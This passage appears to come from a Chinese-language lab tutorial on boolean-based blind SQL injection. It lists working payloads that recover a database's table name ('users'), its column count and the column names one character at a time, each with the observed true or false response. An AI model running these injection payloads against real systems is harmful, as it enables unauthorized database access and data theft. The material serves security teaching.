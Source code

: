 ```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))>117 #
```

显示不存在  第一个字符：u
第二张表的第二个字符：

```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))>115 #
```

显示不存在  第二个字符：s
....
第二张表名称：users

（4）猜解表中的字段名
a.users表字段的数量

```
1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 #
```

b.按顺序猜解每个字段字符长度

```
1' and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'users' limit 0,1),1))=7 #
```

 显示存在
说明users表的第一个字段为7个字符长度。

```
1' and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'users' limit 1,1),1))=10 #
```

 显示存在,说明users表的第二个字段为10个字符长度。
....
c.按顺序猜解每个字段字符每个字符
第一个字段的第一个字符

```
1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),1,1))>117 #
```


第一个字段的第二个字符

```
1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),2,1))>115 #
```

....
第二个字段的第一个字符
